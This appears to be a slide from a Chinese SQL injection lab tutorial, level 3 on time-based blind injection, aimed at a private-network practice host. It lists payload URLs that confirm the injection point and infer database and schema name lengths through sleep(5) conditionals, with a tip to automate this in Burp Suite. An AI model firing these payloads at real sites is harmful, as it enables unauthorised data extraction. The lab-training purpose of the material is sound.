

# Less-03_延时注入
1. http://192.168.80.136/control/sqlinject/bool_injection.php?id=1‘ --+ 发现修改之后没有错误，找到注入点
2. http://192.168.80.136/control/sqlinject/bool_injection.php?id=1‘ and 1=1 --+ 再次验证我们找到注入点是正确的
3.  http://192.168.80.136/control/sqlinject/bool_injection.php?id=1‘ and if((length(database())>1),1,sleep(5))--+ 和第二关相同的方法，判断此时的值，在使用大于和小于号的时候，适合手工判断，可以使用burpsuite配合等号进行快速长度判断。
4. http://192.168.80.136/control/sqlinject/bool_injection.php?id=1‘ and if(((select length(schema_name) from information_schema.schemata limit 0,1)>1),1,sleep(5))--+ 也可通过这种方法进行一个一个数据库长度的判断，不过较慢。
5. 其余方法和第二关相同。